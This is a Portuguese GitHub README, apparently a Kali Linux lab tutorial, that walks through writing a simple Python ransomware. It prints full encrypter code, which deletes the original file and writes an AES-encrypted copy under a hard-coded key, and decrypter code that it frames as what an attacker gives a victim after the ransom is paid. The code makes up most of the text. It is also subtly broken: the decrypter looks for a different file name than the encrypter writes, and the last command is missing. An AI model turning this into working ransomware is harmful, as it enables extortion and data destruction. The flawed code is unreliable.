 # Criando-um-Ransomware-com-python

Ferramentas necessárias para criação deste ransomware

Kali Linux
vim

Configuração Ransomware

No terminal do Kali Linux, crie um arquivo que servirá de exemplo para o ataque: vim dados_teste.txt 
Dentro do arquivo dados_teste.txt, adicione um dado como: "Dados importantes da minha empresa." 
Agora, crie um comando em Python para criptografar o arquivo dados_teste.txt: vim encrypter.py

Alimente com esses dados:

Fazer um arquivo em phyton para cryptografar o arquivo dados_teste.txt: vim encrypter.py

import os         # Importa o módulo 'os' para interagir com o sistema operacional.
import pyaes      # Importa a biblioteca 'pyaes' para operações de criptografia e descriptografia.

# Abrir o arquivo a ser criptografado
file_name = 'dados_teste.txt'                # Define o nome do arquivo a ser criptografado.
file = open(file_name, "rb")                 # Abre o arquivo em modo de leitura binária.
file_data = file.read()                      # Lê o conteúdo do arquivo e armazena em 'file_data'.
file.close()                                 # Fecha o arquivo.

# Remover o arquivo original
os.remove(file_name)                         # Remove o arquivo original do sistema.

# Chave de criptografia
key = b'testeransomwares'                     # Define a chave de criptografia.
aes = pyaes.AESModeOfOperationCTR(key)        # Cria um objeto AES para criptografia no modo CTR.

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)          # Criptografa os dados do arquivo.

# Salvar o arquivo criptografado
new_file = file_name + '.ransomwarattack'     # Define o nome do novo arquivo criptografado.
new_file = open(f'{new_file}', 'wb')          # Abre o novo arquivo em modo de escrita binária.
new_file.write(crypto_data)                   # Escreve os dados criptografados no novo arquivo.
new_file.close()                              # Fecha o novo arquivo.

Agora, crie um arquivo para descriptografar, que o atacante forneceria para quem sofreu o ataque mediante o pagamento do resgate: vim decrypter.py

import os        # Importa o módulo 'os' para interagir com o sistema operacional.
import pyaes     # Importa a biblioteca 'pyaes' para operações de criptografia e descriptografia.

# Abrir o arquivo criptografado
file_name = 'teste.txt.ransomwarattack'        # Define o nome do arquivo criptografado.
file = open(file_name, 'rb')                   # Abre o arquivo em modo de leitura binária.
file_data = file.read()                        # Lê o conteúdo do arquivo e armazena em 'file_data'.
file.close()                                   # Fecha o arquivo.

# Chave para descriptografia
key = b'testeransomwares'                      # Define a chave de descriptografia.
aes = pyaes.AESModeOfOperationCTR(key)         # Cria um objeto AES para descriptografia no modo CTR.
decrypt_data = aes.decrypt(file_data)          # Descriptografa os dados do arquivo.

# Remover o arquivo criptografado
os.remove(file_name)                           # Remove o arquivo criptografado do sistema.

# Criar o arquivo descriptografado
new_file = 'dados_teste.txt'                   # Define o nome do novo arquivo descriptografado.
new_file = open(f'{new_file}', 'wb')           # Abre o novo arquivo em modo de escrita binária.
new_file.write(decrypt_data)                   # Escreve os dados descriptografados no novo arquivo.
new_file.close()                               # Fecha o novo arquivo.

Comandos para fazer a cryptografia e a descryptografia no terminal kali:

Instalado no módulo pyaes no seu ambiente Python: pip install pyaes
Para criptografar o arquivo dados_teste.txt: python encrypter.py
Para descryptografar o arquivo dados_teste.txt: 

![Dados_criptografado](https://github.com/user-attachments/assets/e6da0098-7422-4eb3-afc9-8f6a2c80c331)
![Dados_descriptografado](https://github.com/user-attachments/assets/8d874905-c80a-4870-9f73-31a55af87ec4)


